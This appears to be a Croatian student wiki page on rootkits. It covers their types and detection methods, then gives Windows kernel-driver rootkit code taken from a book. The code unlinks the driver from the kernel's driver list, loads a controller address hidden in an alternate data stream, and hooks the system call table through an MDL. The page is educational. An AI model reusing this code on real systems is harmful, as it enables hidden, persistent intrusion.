


Izrada naprednog malwarea: trojana/rootkita
Sadržaj |
Što je rootkit?
Rootkit je tip softvera koji se koristi za skrivanje i često se upotrebljava u maliciozne svrhe makar to ne mora nužno biti tako. Rootkit je dizajniran tako da skriva procese ili programe od normalnih metoda detekcije i da omogući trajni pristup računalu. Riječ rootkit dolazi od riječi „root“ zbog toga što je root tradicionalno ime privilegiranog računa na linux operativnim sustavima te od riječi „kit“ koja se odnosi na softverske komponente koje služe za implementaciju rootkita. Riječ rootkit često ima negativnu konotaciju zbog svoje maliciozne upotrebe. Instalacija rootkita može biti automatska ili ga napadač može instalirati nakon što dobije administratorski pristup. Administratorski pristup se može dobiti direktnim napadom na sustav tako da se iskoristi neka ranjivost sustava kao što je otkrivanje lozinke pomoću crack-anja ili socijalnog inženjeringa itd. Jednom kada je instaliran moguće je sakriti upad te održati privilegirani pristup. Ključ je imati administratorski pristup i tako dobiti potpunu kontrolu nad sistemom što znači da je moguće mijenjati postojeće softvere, uključujući one koji bi se mogli upotrijebiti za detekciju samog rootkita.
Detekcija rootkita je teška zato što rootkit može srušiti softvere čija je namjena da ga pronađe. Metode za detekciju uključuju detekciju temeljenu na potpisima, detekciju temeljenu na ponašanju, „Cross view“ detekcija, detekciju temeljenu na integritetu te sklopovsku detekciju. Micanje rootkita može biti komplicirano ili praktički nemoguće, pogotovo u slučajevima kada rootkit boravi u kernelu, te reinstalacija operativnog sustava može biti jedino moguće rješenje. Namjena Rootkit program omogućava neautorizairanim korisnicima kontrolu nad sustavom koji je ugrožen. Najčešća namjena im je da skrivaju zlonamjerne datoteke, procese, mrežne veze, blokove memorije ili vrijednosti registra. Neki rootkiti mogu biti isprepleteni s drugim datotekama ili programima, što znači da se umeču u oktete drugih programa kako bi zavarali skenere. Ne mora svaki rootkit biti korišten u zlonamjerne svrhe već ga je također moguće koristiti u konstruktivne svrhe što možemo vidjeti na slici 1.
{kind=link}
Mnogi rootkit programi skrivaju druge programe kako bi zlouporabili ugroženi sustav te obično uključuju stvaranje stražnjih vrata kako bi napadač imao pristup sustavu. Jednostavan primjer je rootkit program koji skriva aplikacije koje koriste sučelje za obradu naredbi (eng. command processing shell), kada se napadač pokuša spojiti na određeni mrežni priključak. Stražnja vrata omogućuju korisniku koji nema ovlasti pokretanje procesa s ovlastima privilegiranog korisnika, kao i obavljanje administratorskih funkcija.
Još jedna od čestih namjena rootkit programa je skrivanje mnogih drugih zlonamjernih programa poput alata za snimanje mrežnog prometa (eng. sniffer) ili alata za bilježenje korisničkih unosa preko tipkovnice(eng. keylogger).
Mogući način zlouporabe je i preuzimanje potpune kontrole nad nekim računalom (eng. zombie computer) kako bi se lažirao izvor nekog drugog napada. Alati za izvođenje takvih napada mogu uključivati funkcije uskraćivanja usluga (eng. Denial of Service), slanje neželjenih poruka elektroničke pošte (eng. spam) i sl.
Velik broj autora zlonamjernih programa odlučuje se za uporabu rootkit tehnologija kako bi skrili djelovanje svojih programa na napadnutom sustavu. Razlog tome je široka dostupnost izvornih kodova rootkit programa na Internetu. Međutim, rootkit programi nisu uvijek korišteni za stjecanje kontrole nad sustavom. Neki programi koriste rootkit tehnologije kako bi trećoj strani skrili svoje postojanje. Najjednostavniji primjer je postavljanje računala kojem je uloga otkrivanje zlonamjernih pokušaja pristupa sustavu (eng. honeypot).
Komercijalni programi koji koriste rootkit tehnologije su, primjerice, alati za rukovanje slikom diska (eng.disk image): „Alcohol 120%“ i „Daemon Tools“. Razlog uporabe rootkit tehnologije kod navedenih alata je zavaravanje operacijskog sustava kako bi se datoteka mogla prikazati kao CD disk. Neki antivirusni programi (npr. „Kaspersky“) također koriste slične tehnologije kako bi se zaštitili od djelovanja zlonamjernih programa.
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Način rada
Jedan način na koji je moguće otkriti zlonamjerne programe je skeniranje direktorija tvrdog diska kako bi se usporedio sadržaj datoteka s potpisima zlonamjernih programa sadržanima u bazama podataka skenera. Rootkit program djeluje tako da presreće sve zahtjeve te uklanja imena vlastitih datoteka s liste koja se dobije kao odgovor. Budući da skener ne vidi postojanje datoteke, ne može provesti njeno skeniranje. Kako bi se zlonamjerni program ili neka aplikacija automatski pokrenula s operacijskim sustavom, mora postojati odgovarajući zapis u registrima operacijskog sustava. Skeneri zlonamjernih programa pretražuju registre kako bi otkrili nevaljane vrijednosti koje osiguravaju pokretanje zlonamjernih programa.
Skeneri antivirusnih programa koriste razne funkcije za skeniranje navedenog sektora. Rootkit programi presreću takve funkcije te vraćaju vrijednosti kakve one očekuju kao ispravne, što omogućuje skrivanje njihova postojanja. Prilikom skeniranja koriste se funkcije za otkrivanje liste pokrenutih procesa na računalu, poput ispisa komponente „Task Manager“ na operacijskom sustavu „Windows“. Tada se ispita svaki proces i usporedi ga se s poznatim potpisima iz baza podataka. Rootkit programi takve funkcije mijenjaju zlonamjernim inačicama kako bi se kao rezultat dobio ispis koji ne sadrži zlonamjerne procese.
Presretanje opisanih poziva i funkcija obavlja se na način prikazan na slici 2. Kada se pokrene postupak skeniranja nekim antivirusnim programom, skener radi API (eng. Application Programming Interface) pozive. Riječ je o skupini standarda preko koje programi mogu pozvati posebnu uslugu operacijskog sustava ili mreže. Nakon što se pokrene takav poziv, rootkit program ga otima ponašajući se kao neki oblik filtra te kao rezultat pruža samo one rezultate koje korisnik i očekuje. Znači, zlonamjerni procesi, datoteke ili druge vrijednosti nisu detektirane te ostaju i dalje skrivene na korisnikovom računalu.
 |
{kind=link}
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Tipovi rootkita
Postoji šest vrsta rootkit programa, a to su:
1. Sklopovski rootkit programi – obično su vezani uz male programe koji se koriste za kontrolu raznih elektroničkih uređaja (eng. firmware). Moguće ih je jednostavno sakriti u takve programe jer se često ne provjerava integritet njihovog koda, a koriste ih kako bi stvorili trajnu sliku zlonamjernog programa (uklanjanje nije moguće nikakvim alatima). Primjer ovakvih programa je napad na kreditne kartice koji se dogodio u listopadu 2008. godine. Tada su kriminalci umetnuli zlonamjerni kod u mehanizam za očitavanje kreditnih kartica kako bi dobili informacije o korisnicima. Takve su informacije zatim slane kriminalcima preko mreže mobilnih uređaja.
2. VMM (eng. virtual machine monitor) rootkit – funkcioniraju izmjenom boot niza računala (inicijalni skup operacija koje se izvode kada se pokrene računalo) kako bi se učitale kao virtualni stoj. Također imaju mogućnost pokretanja originalnog operacijskog sustava kao virtualnog stroja kako bi presreli sve sustavne pozive. Jedan od primjera ovakvih rootkit programa je „SubVirt“ koji su razvili istražitelji iz tvrtke Microsoft i fakulteta Michigan.
3. Rootkit programi boot sektora ili bootkit – zamjenjuju legitimni pokretač operacijskog sustava (eng. boot loader) s nekim koji kontrolira napadač. Obično on ima mogućnost pristupiti zaštićenom modu kada se pokrene jezgra. Kao primjer ovog programa najčešće se navodi „Stoned Bootkit“ koji je omogućavao rušenje sustava te otkrivanje povjerljivih informacija o korisniku sustava.
4. Jezgreni rootkit – dodaju kod ili zamjenjuju dijelove operacijskog sustava uključujući jezgru i pridružene upravljačke programe. Mnogi operacijski sustavi podržavaju upravljačke uređaje koji se pokreću s istim pravima kao i operacijski sustav (eng. kernel-mode device drivers). Prema tome, ovakvi su rootkit programi najčešće razvijeni kao jezgreni moduli kod operacijskog sustava „Linux“ te upravljački programi kod operacijskog sustava „Microsoft Windows“. Smatraju se vrlo opasnima zbog neograničenog pristupa sustavu. Jedan od prvih široko poznatih jezgrenih rootkit programa razvio je Greg Hoglund za operacijski sustav „Windows NT 4.0“ te objavio u elektroničkom časopisu „Phrack“.
5. Bibliotečni rootkit – dopunjuju ili zamjenjuju sustavne pozive s inačicama koje skrivaju informacije o napadaču.
6. Aplikacijski rootkit – zamjenjuju legalne aplikacije s trojanskim konjima. Također mogu izmijeniti ponašanje aplikacija dodacima, umetnutim kodom i sl. Primjer takvih programa je rootkit koji preusmjerava korisnika s popularnih web stranica (poput www.google.com) na napadačeve stranice.
{kind=link}
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Detekcija
Usporedno s razvojem brojnih tehnika skrivanja rada rootkit programa razvijane su i tehnike koje omogućuju njihovo pouzdanije otkrivanje. Osnovne tehnike koje su uključene u popularnije anti-rootkit programe ukratko su opisane u nastavku: Detekcija temeljena na potpisima: Metode detekcije temeljene na potpisima (eng. signatures) godinama se već koriste kod antivirusnih programa. Koncept je vrlo jednostavan, a uključuje skeniranje datoteka kako bi se otkrio niz koji predstavlja tzv. otisak (eng. fingerprint) jedinstven za neki određeni rootkit program. Postupak detekcije prikazan je na slici:
{kind=link}
U slučaju da je pronađen takav potpis na nekoj datoteci, ona se označava kao ugrožena. Budući da se ovakvo skeniranje obično primjenjuje na datotečni sustav, za otkrivanje rootkit programa je obično nepouzdano (osim u kombinaciji s drugim tehnikama). Razlog neuspješnosti navedene tehnike je skrivanje datoteka koje provodi gotovo svaki rootkit program. Ipak, ova se tehnika može uspješno primijeniti na skeniranje memorije sustava. Mnogi popularni i poznati jezgreni rootkit programi mogu se otkriti ovakvim skeniranjem jer obično postoji zapis o njihovu djelovanju u memoriji jezgre. Osnovni nedostatak je mogućnost detekcije samo javno poznatih tj. ranije otkrivenih rootkit programa čiji potpis postoji u bazi podataka.
Detekcija temeljena na ponašanju: Ukoliko detekcija temeljena na potpisima nije uspješno otkrila postojanje rootkit programa, moguće je iskoristiti detekciju temeljenu na ponašanju (eng. heuristic detections). Rad ovih metoda zasniva se na prepoznavanju odstupanja u uobičajenom ponašanju sustava, kao i u provjeravanju uzoraka iz sustava (eng. system patterns). Postupak detekcije dan je na slici:
{kind=link}
Njihova glavna snaga je mogućnost identificiranja novih, prethodno neotkrivenih rootkit programa. Postoje razni načini na koji se provodi detekcija temeljena na ponašanju poput:
• Provjera SSDT (eng. System Service Descriptor Table) tablice s pokazivačima funkcija – radi se o skupini tablica koje održava jezgra. Svaki sustavni poziv iz korisničkog programa preko API sučelja prikazuje se kao ulaz u podatkovnu strukturu SSDT koji jezgra koristi kako bi locirala funkcije koje treba izvesti.
• Provjera IRP (eng. I/O Request Packet) tablica individualnog upravljačkog programa. Svaki operacijski sustav i korisničke aplikacije koriste IRP tablice kako bi komunicirale s upravljačkim programima kada trebaju izvesti neku posebnu funkciju koju on podržava. IRP tablicu posjeduje i jezgreni upravljački program.
• Provjera IAT (eng. Import Address Table) tablica u svim DLL (eng. Dynamic Link Library) bibliotekama koje obično predstavljaju dio nekog programa. IAT tablice sadrže pokazivače koji omogućuju aplikacijama lociranje i pokretanje sustavnih funkcija. Mogu također sadržavati i pokazivače na DDL biblioteke.
• Provjera postojanja dodanog programskog koda na određenim putanjama (npr. do filtra koji vraća izmijenjene rezultate nakon presretanja funkcija). Ove se provjere mogu provoditi određivanjem broja naredbi koje se izvode prilikom provjera. U slučaju postojanja rootkit programa taj će broj biti znatno veći.
Primjeri programskih alata koji koriste opisanu tehniku detekcije su:
• „VICE“ – detekcija na temelju statičke analize koda i podatkovnih struktura,
• „Patchfinder“ – detekcija na temelju analize putanje izvođenja.
„Cross-View“ detekcija: „Cross view“ detekcija predstavlja metodu koja je vođena pretpostavkom da je sustav ugrožen. Funkcioniranje se zasniva na sljedećem:
1. Pozivaju se API funkcije kako bi se dobili rezultati o pokrenutim procesima, skrivenim datotekama i sl.
2. Posebnim postupkom radi se provjera istih podataka na nižem sloju, ne koristeći API funkcije.
3. Rezultati se uspoređuju kako bi se otkrila odstupanja, tj. moguće postojanje rootkit programa.
Opisani postupak detekcije prikazan je i na slici:
{kind=link}
Kako je vidljivo iz načina rada, ove se metoda zasniva na činjenici da će rootkit programi (i sve njegove komponente) biti skriveni u rezultatima API funkcija koje oni presreću. Postupak je uspješan jer su metode koje se koriste za dohvat istih podataka kao i API funkcije, dizajnirane na način da nisu podložne presretanju rootkit programa. Način na koji se obavlja detektiranje prikazan je u nastavku kroz primjere pronalaženja skrivenih datoteka na operacijskom sustavu „Microsoft Windows“. Kako bi se otkrio sadržaj nekog direktorija potrebno je pregledati odgovarajući sektor diska te obraditi podatke. Detektori to obično obavljaju preko funkcija:
1. „CreateFile(“\\.\C”)“ – kreiranje ili otvaranje određenog objekta kako bi se s njim moglo rukovati,
2. „ReadFile()“ – pregled nekog dijela diska.
Alternativno tome, detektori mogu pokušati pristupiti pseudo-datoteci „\\.\PHYSICALDRIVE0„ te zatim iskoristiti funkciju „ReadFile()“. Obje opisane metode mogu biti vrlo jednostavno narušene djelovanjem rootkit programa. Potrebno je samo presresti poziv funkcije „ReadFile()“ te izmijeniti rezultate o sadržaju na disku. Ipak, implementacija ovakvog postupka je dosta zahtjevna pa se rijetko nalazi u rootkit programima. Ipak, pouzdanije rezultate moguće je dobiti ako se u jezgru umetne „agent“ koji bi omogućio zaobilaženje API poziva te koristio funkcije „ZwCreateFile()“/“ZwReadFile()“ u jezgrenom modulu. Ova je tehnika uspješna u većini slučajeva, osim ako rootkit koristi presretanje putem SST (eng. System Service Table) ili IAT tablica. U slučaju da prethodne provjere ne daju zadovoljavajuće rezultate, moguće je koristiti IRP(eng. I/O Request Packet) zahtjeve za čitanje nekog dijela diska i funkciju „IoCallDriver()“ za njihovo slanje izravno disku. Kao i prethodne metode, rootkit programi mogu zaobići i ovu detekciju. Potrebno je samo presresti korištene IRP zahtjeve te izmijeniti rezultate. Najdublja razina skeniranja koju je moguće postići je uporaba samih naredbi „in“ i „out“ kako bi se komuniciralo izravno s upravljačkim sklopom (eng. controller) tvrdog diska. Ovakvu detekciju bilo bi nemoguće presresti, ali njena je implementacija vrlo složena. Kako je vidljivo iz opisanih primjera detekcije, da bi ovaj postupak bio uspješan potrebno je implementirati metode za dobivanje informacija o sustavu. Pri tome se javlja jedan od nedostataka, a to je složenost postupka implementacije. Drugi nedostatak metode leži u tome što, i nakon uspješne implementacije svih metoda, ostaje mogućnost njihovog presretanja. Programski alati koji koriste opisanu metodu su:
1. „Rootkit Revealer“
2. „Klister“,
3. „Blacklight“,
4. „Strider GhostBuster“
Detekcija temeljena na integritetu: Detekcija temeljena na integritetu pruža alternativu detekciji putem potpisa i ponašanja. Obavlja se usporedbom trenutne slike datotečnog sustava ili memorije s već poznatom povjerljivom inačicom. Svaka razlika među njima uzima se kao moguća zlonamjerna radnja. Međutim, koliko god da je ovo pouzdana metoda detekcije (jer može ukazati na svaku promjenu), osnovni je nedostatak nemogućnost specificiranja uzroka te promjene.
{kind=link}
Neki od načina na koje je moguće provoditi ovakvu detekciju su:
1. Stvaranje baze podataka s jedinstvenim hash vrijednostima datoteka na sustavu. Kada se pokrene skeniranje, detektor obavlja identično računanje hash vrijednosti te ih uspoređuje sa zapisima u bazi podataka. Temelji se na pretpostavci da se sistemske datoteke ne bi trebale mijenjati (osim u slučaju kada se nadograđuju novim inačicama, ali tada su razlike očekivane). Ova je metoda bila vrlo uspješna u borbi protiv prvih rootkit programa koji su obavljali jednostavnu zamjenu datoteka na disku s trojanskim konjima. Na žalost, moderniji rootkit programi adaptirali su se premještanjem njihovih modifikacija s diska u memoriju što je učinilo ovu metodu gotovo beskorisnom pri njihovoj detekciji.
2. Provjera integriteta podatkovnih struktura operacijskog sustava (IAT, SSDT, IRP tablica i dr.) te memorije. Provodi se usporedba dijelova koda za važnije biblioteke i upravljačke programe na disku s njihovim odgovarajućim, valjanim slikama u memoriji. Programski alati koji sadrže ovakve metode detekcije su:
• „Tripwire“,
• „System Virginity Verifier“
Sklopovska detekcija: Jedini alat razvijen na temelju metoda sklopovske detekcije je „Copilot“. Radi se o obliku PCI kartice koja je umetnuta u poslužitelj na kojem se prati aktivnost rootkit programa. Cilj je zadržati neovisnost kartice o operacijskom sustavu koji bi morao biti ugrožen. Kako bi se to osiguralo, kartica ima vlastite CPU resurse i koristi DMA (eng. Direct Memory Access) za skeniranje fizičke memorije računala. Obavlja se pretraživanje ponašanja koje ukazuje na postojanje rootkit programa, poput:
• presretanja u SSDT tablicama,
• promjena u jezgrenim funkcijama (provjerom integriteta),
• izmjena ključnih podatkovnih struktura
Spomenuti alat također ima vlastito mrežno sučelje za komunikaciju. Budući da se radi o sklopovski izvedenom rješenju, alat pruža visok stupanj sigurnosti. Osnovni nedostatak kod ove metode su visoki troškovi prilikom implementacije i održavanja.
--Filip.sostarec 23:56, 20. siječnja 2013. (CET)
Skrivanje rootkita
Jedna od glavnih značajki rootkita je tajnost, zato ga je potrebno dobro sakriti kako žrtva uopće ne bi bila svjesna da on postoji. U sljedećem primjeru prikazane su neke funkcije i mehanizmi pomoću kojih se skriva rootkit.
// Ghost.h
#ifndef _GHOST_H_
#define _GHOST_H_
typedef BOOLEAN BOOL;
typedef unsigned long DWORD;
typedef DWORD* PDWORD;
typedef unsigned long ULONG;
typedef unsigned short WORD;
typedef unsigned char BYTE;
typedef struct _DRIVER_DATA
{
LIST_ENTRY listEntry;
DWORD unknown1;
DWORD unknown2;
DWORD unknown3;
UNICODE_STRING path;
UNICODE_STRING name;
} DRIVER_DATA;
#endif
Kod preuzet iz knjige Professional Rootkits, poglavlje 2
DATA_DRIVER je dio nedokumentirane interne strukture Windowsovog operacijskog sustava. Između ostalog, ta struktura sadrži pokazivače na prethodni i sljedeći element liste drivera. To je bitno jer prikazani rootkit je zapravo driver uređaja. Driver je program koji upravlja uređajem. Glavni program za skrivanje rootkita sadrži funkciju ulazka DriverEntry i funkciju za uklanjanje OnUnLoad . Funkcija ulaska je pozvana od strane operacijskog sustava u trenutku kada se driver učita tj postavi. DRIVER_OBJECT proslijeđen prema funkciji DriverEntry sadrži mapu prema funkcijama koje će biti pozvane prilikom komunikacije s driverom. Jedina funkcija koja je mapirana za potrebe skrivanja je pDriverObject->DriverUnload. Na taj način dopušteno je da se funkcija OnUnload pozove od strane operacijskog sustava kada se driver odčita tj ukloni..
// Ghost.c
#include "ntddk.h"
#include "Ghost.h"
#include "fileManager.h"
#include "configManager.h"
// Globalni podaci verzije
ULONG majorVersion;
ULONG minorVersion;
// Ispis komentara prilikom uklanjanja kako bi se izbjegla detekcija
VOID OnUnload( IN PDRIVER_OBJECT pDriverObject )
{
DbgPrint("comint32: OnUnload pozvan.");
}
NTSTATUS DriverEntry( IN PDRIVER_OBJECT pDriverObject, IN PUNICODE_STRING
theRegistryPath )
{
DRIVER_DATA* driverData;
// Dohvaćanje verzije operacijskog sustava
PsGetVersion( &majorVersion, &minorVersion, NULL, NULL );
// Major = 4: Windows NT 4.0, Windows Me, Windows 98 or Windows 95
// Major = 5: Windows Server 2003, Windows XP or Windows 2000
// Minor = 0: Windows 2000, Windows NT 4.0 or Windows 95
// Minor = 1: Windows XP
// Minor = 2: Windows Server 2003
if ( majorVersion == 5 && minorVersion == 2 )
{
DbgPrint("comint32: Radi na Windows 2003");
}
else if ( majorVersion == 5 && minorVersion == 1 )
{
DbgPrint("comint32: Radi na Windows XP");
}
else if ( majorVersion == 5 && minorVersion == 0 )
{
DbgPrint("comint32: Radi na Windows 2000");
}
else if ( majorVersion == 4 && minorVersion == 0 )
{
DbgPrint("comint32: Radi na Windows NT 4.0");
}
else
{
DbgPrint("comint32: Radi na nepoznatom sistemu");
}
// Skrivanje drivera
driverData = *((DRIVER_DATA**)((DWORD)pDriverObject + 20));
if( driverData != NULL )
{
// Odvezivanje (unlink) zapisa ovog drivera s liste drivera
*((PDWORD)driverData->listEntry.Blink) = (DWORD)driverData->listEntry.Flink;
driverData->listEntry.Flink->Blink = driverData->listEntry.Blink;
}
// Dopuštanje uklanjanja drivera
pDriverObject->DriverUnload = OnUnload;
// Konfiguracija konekcije kontrolera
if( !NT_SUCCESS( Configure() ) )
{
DbgPrint("comint32: Nije moguće konfigurirati vezu.\n");
return STATUS_UNSUCCESSFUL;
}
return STATUS_SUCCESS;
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 2
U ovom programu promijenjena je interna struktura podataka jezgre kako bi se sakrio rootkit driver od operacijskog sustava. Interna struktura podataka jezgre omogućava pristup dvostrukoj listi koja sadrži drivere koji su trenutno pokrenuti. Pošto aplikacije kao drivers.exe dobivaju informacije o pokrenutim driverima iz ove liste, uklanjanje rootkita s iste skriva njegovo postojanje i otežava pronalazak. Problem kod ove tehnike je što se uklanjanje zapisa iz liste drivera može otkriti. Kako bi se zaobišao ovaj problem, potrebno je spremiti adresu zapisa drivera. Dodavanjem spremljenog zapisa u listu prije pozivanja originalnih funkcija jezgre i uklanjanja istog zapisa nakon pozivanja originalnih funkcija jezgre, moguće je prevariti detektore rootkita kako bi pomislili da rootkit driver nije skriven iako ga nema na listi. Zanimljivo je uočiti DbgPrint funkciju unutar programa. Unutar te funkcije nalazi se prefiks comint32. To je još jedan od načina na koji se skriva rootkit tako da izgleda kako je izvršena komponenta koja je potrebna za normalan rad sustava. Na slici 1. Prikazano je kako funkcionira skrivanje rootkit drivera.
{kind=link}
--Ztintor 16:55, 20. siječnja 2013. (CET)
Konfiguracija rootkita
Nakon omogućavanja skrivanja, sljedeći korak je konfiguracija rootkita. To je zapravo priprema za komunikaciju između rootkita i udaljenog kontrolera o kojoj će biti riječi nešto kasnije. U klasi ConfigManager.c implementirana je konfiguracija rootkita. Funkcija Configure čita podatke iz datoteke. Ako je rootkit aktivan, skriva tu datoteku u alternativni podatkovni tok (engl. alternate data stream - ADS). Ako se rootkit instalira po 1. put, putanja datoteke mora biti c:\config32 inače rootkit odustaje.
// ConfigManager.c
// Prvi pokušaj c:\config32
// Ako postoji, spremi kao MASTER_FILE:config32 i obriši c:\config32
// Ako ne postoji probaj MASTER_FILE:configFile
// Inače odustani
#include "ntddk.h"
#include "fileManager.h"
#include "configManager.h"
// Postavljanje IP-a i porta kontrolera
NTSTATUS Configure()
{
CHAR data[21];
SHORT vis = 0;
SHORT loop;
SHORT dataIndex;
SHORT addressIndex;
ULONG fileSize;
PHANDLE fileHandle;
// Na koju datoteku se spaja
if( NT_SUCCESS( GetFile( L"\\??\\C:\\config32", data, 21, &fileSize ) ) )
{
DbgPrint("comint32: Čitanje konfiguracije iz vidljive datoteke.");
vis = 1;
}
else
{
if( NT_SUCCESS( GetFile( L"config32", data, 21, &fileSize ) ) )
{
DbgPrint("comint32: Čitanje konfiguracije iz skrivene datoteke.");
}
else
{
DbgPrint("comint32: Greška, datoteka ne postoji.");
return STATUS_UNSUCCESSFUL;
}
}
// pretvori adresu i port u aaa.bbb.ccc.ddd:eeeee
dataIndex = 0;
addressIndex = 0;
// Prva 3 su xxx od xxx.111.111.111:11111
for( loop = 0; loop < 3; loop++ )
masterAddress1[addressIndex++] = data[dataIndex++];
masterAddress1[addressIndex] = 0;
addressIndex = 0; // reset
dataIndex++; // skip the dot
// Slijedeća 3 su xxx od 111.xxx.111.111:11111
for( loop = 0; loop < 3; loop++ )
masterAddress2[addressIndex++] = data[dataIndex++];
masterAddress2[addressIndex] = 0;
addressIndex = 0; // reset
dataIndex++; // skip the dot
// Slijedeća 3 su xxx od 111.111.xxx.111:11111
for( loop = 0; loop < 3; loop++ )
masterAddress3[addressIndex++] = data[dataIndex++];
masterAddress3[addressIndex] = 0;
addressIndex = 0; // reset
dataIndex++; // skip the dot
// Slijedeća 3 su xxx od 111.111.111.xxx:11111
for( loop = 0; loop < 3; loop++ )
masterAddress4[addressIndex++] = data[dataIndex++];
masterAddress4[addressIndex] = 0;
addressIndex = 0; // reset
dataIndex++; // skip the semicolon
// Slijedećih 5 su xxxxx od 111.111.111.111:xxxxx (port)
for( loop = 0; loop < 5; loop++ )
masterPort[addressIndex++] = data[dataIndex++];
masterPort[addressIndex] = 0;
DbgPrint( "comint32: Using %s.%s.%s.%s:%s",
masterAddress1,
masterAddress2,
masterAddress3,
masterAddress4,
masterPort);
if( vis == 1 )
{
DbgPrint("comint32: Spremanje konfiguracije u skrivenu datoteku.");
PutFile( L"config32", data, fileSize );
DbgPrint("comint32: Obriši vidljivu datoteku.");
}
return STATUS_SUCCESS;
Kod preuzet iz knjige Professional Rootkits, poglavlje 2
--Ztintor 16:09, 20. siječnja 2013. (CET)
Modovi Rootkita
Postoje dva načina funkcioniranja rootkita. Jezgreni koji modificira funkcije u jezgri i korisnički koji modificiraju DLL datoteke (engl. Dynamic Link Libraries).
--Ztintor 16:19, 20. siječnja 2013. (CET)
Jezgreni
Jezgra Windowsa oslanja se na tablicu pokazivača na funkcije te se na taj način izvršavaju sistemske operacije. Ta tablica zvana tablica sistemskih servisa može biti modificirana tako da pokazuje na korisnikove funkcije. To se postiže pomoću rootkita u jezgri (engl. Kernel Hook). Ipak funkcije jezgre ne mogu se mijenjati tek tako. Moderni Windowsovi operacijski sustavi štite memoriju jezgre na način da je tablicu sistemskih servisa jedino moguće čitati. Ključ zaobilaženja ove obrane leži u listi memorijskih deskriptora (engl. Memory Descriptor List - MDL) definiranoj u ntddk.h klasi. MDL-ovi se koriste kako bi se mapirala virtualna memorija na fizičke stranice. Kako bi se omogućilo nesmetano mijenjanje funkcije jezgre potrebno je postaviti MDL zastavicu memorije koja sadrži tablicu sistemskih servisa na MDL_MAPPED_TO_SYSTEM_VA. To se izvodi sljedećim dijelom koda.
#pragma pack(1)
typedef struct ServiceDescriptorEntry
{
unsigned int *ServiceTableBase;
unsigned int *ServiceCounterTableBase;
unsigned int NumberOfServices;
unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
#pragma pack()
__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
PVOID* NewSystemCallTable;
PMDL pMyMDL = MmCreateMdl( NULL,
KeServiceDescriptorTable.ServiceTableBase,
KeServiceDescriptorTable.NumberOfServices * 4 );
MmBuildMdlForNonPagedPool( pMyMDL );
pMyMDL->MdlFlags = pMyMDL->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;
NewSystemCallTable = MmMapLockedPages( pMyMDL, KernelMode );
Kod preuzet iz knjige Professional Rootkits, poglavlje 3
{kind=link}
Na slici 2. Prikazana je sistemska tablica. KeServiceDescriptorTable sadrži sve ntdll.dll pokazivače na funkcije i adresu te veličinu tablice. Svi ti elementi potrebni su za kreiranje vlastitog MDL-a. Nakon što se pomoću prethodno prikazanog koda napravi novi MDL s MDL_MAPPED_TO_SYSTEM_VA zastavicom može se napraviti nova sistemska tablica u koju je moguće i pisati. Njena struktura prikazana je na slici 3.
 |
{kind=link}
Osim sistemske tablice koja sadrži pokazivače na funkcije, osnovne komponente rootkita jezgre (engl. hook) su funkcija koja treba biti izmijenjena i funkcija koja treba zamijeniti staru funkciju . U tu svrhu u program Ghost.c dodajemo neke nove funkcije. Kako je i navedemo, NewSystemCallTable koristi se za zaobilaženje zaštite sistemske tablice u kombinaciji s pMyMDL pkazivačem na strukturu. ZwMapViewOfSection sadrži adresu originalne funkcije dok OldZwMapViewOfSection predstavlja pokazivač na funkciju koju treba izmijeniti.
// Koristi se za zaobilaženje zaštita vezanih uz sistemsku tablicu
PVOID* NewSystemCallTable = NULL;
PMDL pMyMDL = NULL;
// Pokazivač na funkciju koju treba izmjeniti
ZWMAPVIEWOFSECTION OldZwMapViewOfSection;
// Oslobađanje (unhook) zahvaćenih funkcija i vračanje MDL-a
if( NewSystemCallTable )
{
UNHOOK( ZwMapViewOfSection, OldZwMapViewOfSection );
MmUnmapLockedPages( NewSystemCallTable, pMyMDL );
IoFreeMdl( pMyMDL );
}
// Izmjena (hook) sistemske tablice
if( !NT_SUCCESS( HookKernel() ) )
{
DbgPrint("comint32: Could not hook the System Call Table.\n");
return STATUS_UNSUCCESSFUL;
}
Kod preuzet iz knjige Professional Rootkits, poglavlje 4
Osim navedenog, za potrebe funkcioniranja rootkita jezgre potrebna je i funkcija HookKernel koja je definirana u hookManager.c klasi.
// hookManager.c
// Dodavanje hook-a
NTSTATUS HookKernel( )
{
DWORD functionAddress;
DWORD position;
pMyMDL = MmCreateMdl(NULL,
KeServiceDescriptorTable.ServiceTableBase,
KeServiceDescriptorTable.NumberOfServices * 4 );
if( !pMyMDL )
return( STATUS_UNSUCCESSFUL );
MmBuildMdlForNonPagedPool( pMyMDL );
pMyMDL->MdlFlags = pMyMDL->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;
